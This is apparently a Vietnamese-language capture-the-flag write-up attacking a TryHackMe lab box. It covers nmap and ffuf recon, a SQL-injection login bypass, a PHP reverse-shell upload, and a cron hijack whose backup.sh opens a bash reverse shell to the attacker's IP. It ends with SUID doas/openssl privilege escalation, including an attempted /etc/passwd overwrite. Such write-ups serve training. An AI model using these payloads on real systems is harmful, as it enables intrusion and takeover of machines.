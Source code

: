 # [THM] RootMe write-up

- IP: 10.10.76.27

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.76.27

![Scan nmap](./img/nmap-scan.png)

Có 3 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 và 445 chạy dịch vụ HTTP 

Ta thấy port 80 và 445 đều chạy dịch vụ http và đều có giao diện là default page apache2 nên tiếp tục scan bằng công cụ fuff để tìm thư mục ẩn 
> ffuf -u "http://10.10.76.27/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf scan port 80](./img/ffuf-scan80.png)
Ta nhận thấy có các thư mục ẩn `/admin`,`/passwd`,`/shadow` cùng kiểm tra các thư mục đó

Tìm thấy file id_rsa trong thư mục `/admin` có nội dung như hình ảnh bên dưới. Có thể đoán được là chuỗi này đã được mã hóa bởi thuật toán nào đó, ta sẽ thử thuật toán phổ biến nhất đó là base64 xem có gì không
![ID_RSA](./img/id_rsa.png)

![Encode id rsa](./img/id_rsa_encoded.png)
Chúng ta đã đoán đúng nó được mã hóa bằng base64 nhưng kết quả nhận được lại hơi thất vọng

Kiểm tra thư mục `/passwd`,`/shadow` có chung nội dung và khi giải mã nội dung tương tự như trên
![Encode shadow](./img/shadow-encoded.png)

Vậy thì ta sẽ tiếp tục scan với port 445
> ffuf -u "http://10.10.76.27:445/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt

![ffuf scan port 445](./img/ffuf-scan445.png)
Ta đã phát hiện ra thư mục ẩn `/management`

Giao diện thư mục ẩn `/management`
![Web interface](./img/web-interface.png)

Phát hiện ra trang `/login` ta sẽ thử attack vào các ô input với các lỗ hổng cơ bản như XSS hay SQLi
![Login interface](./img/login-interface.png)

## Exploit
Sau khi thử thì đã thành công với SQLi payload `admin'or 1=1-- -` và mật khẩu bất kì ta có thể truy cập vào dashboard của administrator
![Admin interface](./img/admin-interface.png)

Khi tìm kiếm thì nhận ra avatar của admin có thể được upload lên mà không hề lọc những file có thể thực thi mã nguồn, tận dụng điều này ta sẽ up file reverse shell lên để chiếm quyền shell của user web này. Sau khi tạo **netcat lister** và upload file `shell.php` thì ta đã vào được user **www-data**

![User shell](./img/user-shell.png)

## user.txt
Hiện tại đã tìm được file `user.txt` nhưng với user **www-data** không có quyền read file này vậy chúng ta cần tìm cách truy cập vào user có quyền xem được file này

![User flag fail](./img/user-flagfail.png)

Sau khi kiểm tra và thấy crontab được config chạy file backup.sh với quyền của user `plot_admin` vậy nên ta sẽ tạo 1 file backup.sh giả mạo để có thể truy cập shell với quyền user trên

![Cron tab](./img/cron-tab.png)

```sh
www-data@plotted:/var/www/scripts$ mv backup.sh backup2.sh
mv backup.sh backup2.sh
www-data@plotted:/var/www/scripts$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.21.113.26/4321 0>&1' > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
chmod +x backup.sh
www-data@plotted:/var/www/scripts$ ls
ls
backup.sh  backup2.sh
www-data@plotted:/var/www/scripts$ cat backup.sh
cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.21.113.26/4321 0>&1
www-data@plotted:/var/www/scripts$ 
```

Sau khi đợi cron run ta đã có shell với quyền user `plot_admin` vậy giờ ta đã có thể lấy được flag trong user.txt

![User flag](./img/user-flag.png)

## Privilege escalation
> find / -perm -4000 -type f 2>/dev/null
Để kiểm tra tệp tin nào có thể được thực thi với quyền SUID bất thường không và đã nhận ra `/usr/bin/doas`

![SUID permission](./img/suid-per.png)

Nhận thấy rằng **doas** là một chương trình thay thế cho **sudo** vì vậy ta sẽ kiểm tra config xem nó có gì đặc biệt không

![Sudo no pass](./img/sudo-nopass.png)

Openssl được cho phép chạy với quyền sudo mà không cần mật khẩu, ta sẽ tìm cách leo thang đặc quyền thông qua nó tham khảo [GTFOBINS](https://gtfobins.github.io/gtfobins/openssl/)

Sau khi thử để leo thang đặc quyền với việc ghi đè file /etc/passwd không thành công, điều này tôi vẫn chưa rõ xảy ra vấn đề gì nhưng hiện tại ta sẽ tìm phương án khác
```sh
plot_admin@plotted:~$ LFILE=/etc/passwd
LFILE=/etc/passwd
plot_admin@plotted:~$ echo "root::0:0:root:/root:/bin/bash" | doas -u root openssl enc -out "$LFILE"
</bin/bash" | doas -u root openssl enc -out "$LFILE"
plot_admin@plotted:~$ su root
su root
Password: 
su: Authentication failure
```

Ta sẽ đọc file thông qua file read
![File read](./img/file-read.png)


## root.txt

> doas -u root openssl enc -in /root/root.txt

![Root flag](./img/root-flag.png)

